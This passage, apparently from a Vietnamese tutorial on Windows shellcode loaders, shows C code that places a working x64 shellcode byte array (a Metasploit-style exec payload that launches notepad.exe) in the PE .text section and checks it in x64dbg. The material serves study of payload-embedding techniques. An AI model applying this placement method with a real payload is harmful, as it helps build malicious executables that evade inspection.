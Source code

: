 Kiểm tra với x64gdb
![rdata](images/rdata.png)

### .text section
Để lưu trữ được shellcode ở phần, cần thêm phần mã sau trước khi khao báo biến:
```c
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Từ khóa *const* có thể có hoặc không, không làm ảnh hưởng đến kết quả.

Nhìn vào x64dbg, .text section bắt đầu từ địa chỉ *0x00007FF79CB41000*
![textsection](images/maptext.png)
